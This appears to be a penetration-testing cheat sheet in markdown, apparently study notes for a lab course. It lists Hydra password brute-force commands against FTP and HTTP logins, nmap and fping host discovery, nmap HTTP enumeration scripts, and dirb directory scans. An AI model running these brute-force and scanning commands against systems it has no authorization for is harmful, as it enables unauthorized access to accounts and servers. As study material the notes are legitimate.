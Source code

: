 # Hydra 

Attacking un Common ports
* gzip -d /usr/share/wordlists/rockyou.txt.gz
* hydra -L /root/Desktop/wordlists/ftp_Users.txt -P /root/Desktop/wordlists/unix_passwords.txt ftp://192.253.124.3:5554
* /usr/share/wordlists/metasploit/common_users.txt && /usr/share/wordlists/metasploit/common_passwords.txt

# Network

```bash
#Dump IPs withing a Sub Domain
fping -a -g <IP/NW Mask>
fping -a -g 10.1.10.0/24
#show only alive-reachable machines
fping -a -g 10.1.10.0/24 2>/dev/null

#Ping scan. No port
nmap -sn <IP>
nmap -sn <IP> <IP>
nmap -sn <IPRange-IP>
```

# HTTP: 80, 443

#### Nmap
```bash
sudo nmap -p 80 -sV -O <TARGET_IP>

nmap -p 80 --script=http-enum -sV <TARGET_IP>
nmap -p 80 --script=http-headers -sV <TARGET_IP>
nmap -p 80 --script=http-methods --script-args http-methods.url-path=/webdav/ <TARGET_IP>
nmap -p 80 --script=http-webdav-scan --script-args http-methods.url-path=/webdav/ <TARGET_IP>
```

#### Alternative
```bash
#Shows Server & Sight additional data
whatweb <TARGET_IP>

#Shows source code. not the rendered one
http <TARGET_IP>

#Renders page on Ternimal
browsh --startup-url http://<TARGET_IP>

dirb http://<TARGET_IP>
dirb http://<TARGET_IP> /usr/share/metasploit-framework/data/wordlists/directory.txt
dirb http://<TARGET_IP> -u bob:password_123321

hydra -L users.txt -P /usr/share/wordlists/rockyou.txt example.com http-head /admin/ #brute http basic auth
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt example.com http-get /admin/ #brute http digest
hydra -l admin -P /usr/share/wordlists/rockyou.txt example.com https-post-form "/login.php:username=^USER^&password=^PASS^&login=Login:Not allowed" # brute http post form
hydra -l admin -P /usr/share/wordlists/rockyou.txt example.com https-post-form "/login.php:username=^USER^&password=^PASS^&login=Login:Not allowed:H=Cookie\: PHPSESSID=if0kg4ss785kmov8bqlbusva3v" #brute http authenticated post form

wget <TARGET_IP>
```